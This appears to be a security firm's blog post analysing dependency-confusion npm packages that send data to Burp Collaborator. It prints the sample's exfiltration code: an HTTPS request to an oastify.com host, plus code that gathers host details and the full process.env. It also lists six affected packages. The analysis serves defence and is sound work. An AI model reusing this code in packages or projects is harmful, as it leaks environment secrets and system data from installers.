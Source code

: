 ```yaml
---
publishDate: 2025-01-16T00:00:00Z
title: 'Malicious npm Packages using Burp Collaborator for Dependency Confusion Attack'
image: /images/burp-collaborator-dependency-confusion.png
excerpt: Multiple npm packages impersonating popular package names were published to the npm registry including by a Snyk researcher apparently targeting internal packages at Cursor AI.
tags:
  - npm
  - malware
---
```


Recently a Hacker News discussion on [Snyk security researcher deploys
malicious NPM packages targeting
cursor.com](https://news.ycombinator.com/item?id=42690473) highlighted
interesting insights related to using Burp Collaborator's `oastify.com` as
[Command and Control](#) (C2) server for exfiltrating data. In this particular
case, the researcher published multiple npm packages to the public npm registry
apparently targeting internal packages at Cursor in a [dependency confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) attack.

## SafeDep Analysis

Our [Malicious Package Scanner](https://docs.safedep.io/cloud/malware-analysis) deployed to monitor `npm` registry for malicious packages
identified similar patterns in multiple packages published during the month of January 2025. In fact a simple query
identified 50+ such packages.

![](/images/malysis-npm-oastify.jpeg)

### Looking at a Sample

We took a closer look at one of the samples `pkg:/npm/patternfly-v5/patternfly@1.0.2`.
The sample contained the following files:

```
-rw-r--r--  1 dev  wheel  1365 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel   283 Oct 26  1985 package.json
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly-addons.css
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly.min.css
```

The `package.json` had a `postinstall` script to execute the payload:

```json
{
  "name": "@patternfly-v5/patternfly",
  "version": "1.0.2",
  "description": "A package for testing supply chain attacks.",
  "main": "index.js",
  "scripts": {
    "postinstall": "echo 'Patternfly malicious package executed!'"
  },
  "author": "Your Name",
  "license": "MIT"
}
```

The payload was in `index.js` and contained exfiltration logic such as

```javascript
function sendData(path, data) {
  const options = {
    hostname: 'rzucd2dfiuz08dnqwkigu37xfolf95xu.oastify.com',
    port: 443,
    path: `/${path}`,
    method: 'GET',
    headers: {
      'Content-Type': 'application/json',
    },
  };

  const req = https.request(options, (res) => {
    console.log(`Status: ${res.statusCode}`);
  });

  req.on('error', (error) => {
    console.error(`Error: ${error.message}`);
  });

  req.write(JSON.stringify(data));
  req.end();
}
```

Followed by system information gathering code

```javascript
const systemInfo = {
  hostname: os.hostname(),
  platform: os.platform(),
  arch: os.arch(),
  release: os.release(),
  userInfo: os.userInfo(),
  networkInterfaces: os.networkInterfaces(),
  env: process.env,
};
```

### Example Packages using `oastify.com` for Exfiltration

| Package                                     | Report                                                                                                    |
| ------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| `chrome-api-utils@1.1.0`                    | [🔗 01JGPYQTZJGM0Y5BYZWZ0757P3](https://platform.safedep.io/community/malysis/01JGPYQTZJGM0Y5BYZWZ0757P3) |
| `grafana-sentry-datasource@1.0.4`           | [🔗 01JH3FWEBCCXBGGRTN286Z5ARP](https://platform.safedep.io/community/malysis/01JH3FWEBCCXBGGRTN286Z5ARP) |
| `@patternfly-v5/patternfly@1.0.2`           | [🔗 01JH0BKSY7Y2DNG7QB137S6J6F](https://platform.safedep.io/community/malysis/01JH0BKSY7Y2DNG7QB137S6J6F) |
| `electron-builder-13@13.4.5`                | [🔗 01JH01T0FQQ14NX3DKNJXG0SPC](https://platform.safedep.io/community/malysis/01JH01T0FQQ14NX3DKNJXG0SPC) |
| `graphql.vscode-graphql-syntax@99.99.99`    | [🔗 01JF2FS909Y3SHC099S6ETY7X1](https://platform.safedep.io/community/malysis/01JF2FS909Y3SHC099S6ETY7X1) |
| `mattermost-cloudnative-bootstrapper@1.0.0` | [🔗 01JF1PE7YACMTYBQGG59VVHDZ1](https://platform.safedep.io/community/malysis/01JF1PE7YACMTYBQGG59VVHDZ1) |

## Conclusion

All packages appeared to be similar in nature i.e. leveraged Burp Suite's [Collaborator](https://portswigger.net/burp/documentation/collaborator)
service as a public endpoint for capturing exfiltrated data. We did not observe any sophistication or attempt
to conceal malicious behavior. This potentially indicate red team activity or unsophisticated threat actor groups.
